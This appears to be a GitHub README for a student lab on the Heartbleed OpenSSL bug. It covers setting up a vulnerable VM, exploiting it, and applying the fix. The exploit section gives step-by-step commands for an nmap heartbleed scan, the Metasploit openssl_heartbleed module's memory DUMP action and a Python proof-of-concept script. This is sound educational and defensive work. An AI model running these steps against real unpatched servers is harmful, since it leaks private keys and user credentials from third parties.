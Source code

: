 
# HeartBleed Vulnerability

by Timur Ozkul

This Heartbleed vulnerability set-up/exploit/bugfix was done for my Msc Cyber Security course in Swansea.


Table of Content
================
Part 1: Set up
-----
* Disclaimer *
This instruction is for Virtualbox, other hypervisors may be used but the setup might be slightly different.
Two ways of setting it up either us pre existing VM (considerably quicker) or or create Ubuntu 12.04 (This ubuntu version comes with TLS 1.1) and then a web server
------------------------------------------------------------------------------------
Part 2: Exploit
-----
* Disclaimer *
These instructions use Kali Linux, other Linux OS may be used but might require additional installations.
The square brackets [], indicate that it should be replaced with the appropriate input. Used in bash commands.
I will demonstrate two methods to exploit one with metasploit the other with a python script
------------------------------------------------------------------------------------
Part 3: Bug Fix
-----

------------------------------------------------------------------------------------


Part 1: Set up
================

-- Using pre existing VM --
1. Download custom Linux VM file (bee-box.zip) from https://sourceforge.net/projects/bwapp/files/bee-box/bee-box_v1.6.7z/download  
2. On Virtualbox 
	2.1 Click new
	2.2 Name VM anything of your choice
	2.3 For type pick Linux
	2.4 For version pick Ubuntu 64-bit and click next
	2.5 The recommended memory size is fine and click next
	2.6 For Hard disk pick use existing virtual hard disk and pick bee-box.vmdk from downloaded zip and click create
	2.7 Click start
3. Once VM is working go to terminal and use ifconfig command to find the ip address (for use later)
4. On the browser go to http://localhost/bWAPP/login.php
5. Login with username: bee and password: bug
6. On top right under choose your bug find heartbleed vulnerability under A6 and click hack

Now you should have a web server running with the Heartbleed vulnerability on port 8443

-- Creating web server on Ubuntu 12.04 --

1. Download ubuntu12.04 iso from http://www.ubuntu.com/download/alternative-downloads
2. Install OS on a VM (instructions are here: https://ubuntu.com/tutorials/tutorial-install-ubuntu-server)
3. Install Nginx with sudo apt-get install nginx
4. Generate your self-signed ssl key and certificate: 
openssl req -new -x509 -days 365 -sha1 -newkey rsa:1024 
-nodes -keyout heartbleed.key -out heartbleed.crt 
-subj '/O=YourCompany/OU=YourDepartment/CN=www.yoursite.com'
5. Copy your cert to the attacking computer (use sudo update-ca-certificates, update-ca-certificates —refresh)
6. Update your nginx config to add 
  ## SSL
  ssl on;
  ssl_certificate /path/to/your/heartbleed.crt;
  ssl_certificate_key /path/to/your/heartbleed.key;
7. Check the SSL version: openssl version -a
8. Restart nginx server: sudo service nginx restart

------------------------------------------------------------------------------------

Part 2: Exploit
================

1. Ping the VM that was created in part 1, using the ip address (to check if it can create a communication)
2. Use sudo nmap --script ssl-heartbleed -p [port#] [ip] or sudo nmap --script ssl* -p [port#] [ip]
	(this script checks the SSL version to see if it is vulnerable to Heartbleed)
3. Exploit using Metasploit
	3.1 Run msfconsole on terminal
	3.2 Type: search openssl_heartbleed
	3.3 Type: use openssl_heartbleed
	3.4 Type: set RHOSTS [ip]
	3.5 Type: set RPORT [port]
	3.6 Type: set action SCAN, and type: run (this test of the server is vulnerable to Heartbleed)
	3.7 Type: set action DUMP, and type: run (this will dump the memory leak to bin file)
	3.8 Go to the path of the bin file and type: strings [bin file name] 
	(String command shows only the strings of the dump)
	or strings -n 2 [bin file name] (which sets the min of chars)
4. Exploit using python proof of Concept script by Jared Stafford (jspenguin@jspenguin.org) (comments added by me)
	4.1 Download hbexploit.py & loophbexploitfrom https://github.com/timurozkul/HeartBleed.git
	4.2 On the terminal type: python ./hbexploit.py [ip] -p [port]
		(This will output dump onto the terminal window)
	4.3 Alternatively you can use my personal bash script which can make several heartbeat requests and which appends all the output to one file. Use the --help flag for description (makes use of the hbexploit.py script)

The exploit can gives different results so doing several heartbeat request is useful
------------------------------------------------------------------------------------

Part 3: Bug Fix
================
1. sudo apt-get update && sudo apt-get upgrade
2. sudo apt-get install openssl
3. To check if it updated run: openssl version -a
4. Re-run attack scripts

———


